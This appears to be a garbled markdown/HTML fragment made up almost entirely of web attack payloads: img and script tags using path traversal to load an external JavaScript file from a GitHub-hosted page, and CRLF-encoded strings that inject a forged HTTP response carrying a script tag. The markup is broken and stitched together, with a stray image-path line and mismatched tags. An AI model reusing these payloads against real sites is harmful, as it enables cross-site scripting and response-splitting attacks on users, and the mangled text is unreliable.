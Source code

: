 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<input type="text">
<button>asdf</button>
<script src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"><script>
<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">
  
](()
